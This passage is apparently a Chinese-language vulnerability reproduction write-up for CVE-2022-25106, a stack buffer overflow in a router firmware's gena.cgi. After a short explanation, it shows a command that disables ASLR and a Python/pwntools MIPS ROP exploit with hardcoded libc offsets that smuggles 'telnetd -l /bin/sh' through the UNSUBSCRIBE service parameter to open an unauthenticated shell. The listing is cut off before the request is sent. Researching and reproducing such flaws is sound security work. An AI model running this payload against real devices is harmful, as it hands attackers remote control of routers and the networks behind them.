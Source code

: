 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4U8vMYL7l8aaicKxibliadS87LOmicR82u1EWia5GJFcvbnkPOicpVpU5gZ5w/640?wx_fmt=png "")  
##   
##   
  
五  
  
  
**CVE-2022-25106**  
  
  
漏洞信息：CVE-2022-25106（  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25106  
）  
  
   
  
这个漏洞仍然是在gena.cgi中，不过这次是存在缓冲区溢出的漏洞：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4NFDYG4icuT11OvZtzQdQDGnRNldTuCiclu2G9kNTIbaibg8piaticiavN0Cg/640?wx_fmt=png "")  
  
   
  
上图是当为UNSUBSCRIBE请求方式时走到的函数，很容易看出存在一处栈溢出的漏洞，且当请求方式为SUBSCRIBE时，也存在同样的栈溢出漏洞。  
  
   
  
需要提一下的就是，这里的SERVER_ID环境变量可以从httpd.conf文件中看到：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4Gz9WleicnI2nLwWTUG0AAOgb0ibEEhrE7SQXLhibJtt9FIibeNSsqRJr4Q/640?wx_fmt=png "")  
  
   
  
这个环境变量本身就不为空，也不是我们可控的，在这个栈溢出漏洞中，我们可以对service或HTTP_SID进行payload的注入，进行漏洞利用或造成拒绝服务。  
  
   
  
这里需要注意的是：用FAP启动好固件后，需要用echo 0 > /proc/sys/kernel/randomize_va_space命令关闭地址随机化（ASLR），因为在真机环境中就是没开ASLR的，也方便我们接下来的复现：  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4HicBARPvic379FWsk6YL5oOCVAYSsRciaPTJLwHzK2xUpqTDh2KzAooJw/640?wx_fmt=png "")  
  
   
  
**POC-1：**  
  
   
  
用UNSUBSCRIBE的请求方式，对service进行了注入。  
```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aaf8000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -l /bin/sh;'
payload = b'a'*462
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*4 # fp
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18 # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
 
```